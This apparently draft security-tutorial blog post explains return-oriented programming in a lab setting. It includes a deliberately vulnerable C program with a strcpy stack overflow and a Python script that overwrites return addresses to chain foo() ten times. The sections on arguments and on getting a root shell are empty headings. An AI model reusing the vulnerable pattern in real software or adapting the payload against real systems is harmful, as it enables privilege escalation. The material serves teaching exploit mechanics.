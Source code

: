 ```yaml
---
title: "Return-Oriented Programming"
date: 2021-02-04T09:03:22+08:00
draft: true
---
```


In the previous [post](https://chuang76.github.io/posts/return-to-libc/), we showed how to launch a return-to-libc attack, which chains two functions: system() and exit(). Nergal and Shacham extended the return-to-libc attack in 2001 and 2007, respectively. Return-Oriented Programming (ROP) is a generalized version that chains several code chunks (gadgets) to accomplish the exploit. In this article, we'll study how ROP works.  



## Setup

Environment

1. Google cloud virtual machine: Ubuntu 20.04
2. Linux kernel version: 5.4.0
3. Create a symbolic link from “/bin/zsh” to “/bin/sh” since /bin/dash in most Ubuntu systems prevents itself from being executed in a Set-UID process
4. Disable ASLR and Stackguard protection, but make the stack non-executable (our purpose of the experiment)



## Chain function calls without arguments

We first show how to chain function calls without arguments. Our goal is to invoke the function foo() in the following program 10 times based on our crafted stack frame. 

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int bof(char* str)
{
	char buffer[100]; 
	unsigned int* framep; 

	asm("movl %%ebp, %0" : "=r" (framep));             // copy ebp 
	printf("ebp value = 0x%x\n", (unsigned)framep); 
	printf("buffer address = 0x%x\n", (unsigned)buffer); 

	strcpy(buffer, str);                               // buffer overflow 

	return 1; 
}

void foo() {
	static int i = 0; 
	printf("function foo() is called %d times\n", ++i);
}

void helper(int x) {
	printf("helper()'s argument = 0x%x\n", x);
}

int main(int argc, char** argv)
{
	char input[1000]; 
	FILE* badfile; 

	char* shell = getenv("my_shell"); 
	if (shell)
		printf("shell = %s, address = 0x%x\n", shell, (unsigned int)shell); 

	badfile = fopen("badfile", "r"); 
	fread(input, sizeof(char), 1000, badfile); 

	bof(input); 

	printf("return properly\n");
	return 1; 
}
```

According to the discussion in the previous [post](https://chuang76.github.io/posts/return-to-libc/), the stack should looks like this:

[seed5-3]

And we need to find out

1. the address of function foo()
2. the address of function exit()
3. the offset between the address of buffer and the old ebp 

To get the offset, we can execute the program to display the address of buffer and the ebp value. To get where is the address of function foo() and exit(), just set a breakpoint at main function and run the program via gdb debugger. 

[seed5-2]

[seed5-1]

As you can see, we need to cover 0xffffd118 - 0xffffd0a8 + 4 (the size of ebp), which equals to 116 bytes. The address of foo() is 0x565562d0 and the address of exit() is 0xf7e05f80. 

Okay, so now we can write a payload called test1.py as follows.  

```
#!/usr/bin/python3

import sys 

content = bytearray(0xaa for i in range(1000))
foo_addr = 0x565562d0 
exit_addr = 0xf7e05f80
start = 116 

for i in range(0, 10):
    content[start:start + 4] = (foo_addr).to_bytes(4, byteorder='little')
    start += 4
content[start:start + 4] = (exit_addr).to_bytes(4, byteorder='little')

with open("badfile", "wb") as f:
    f.write(content)
```

And here is the result, we invoke foo() 10 times successfully. 

[seed5-4]



## Chain function calls with arguments

Let's move on. We start to consider a more complicated situation. That is, we try to allocate the arguments at this time. 



## Exploit

Now, we have understood how ROP works. So how to use the ROP technique to launch an attack and get the root privilege of the shell?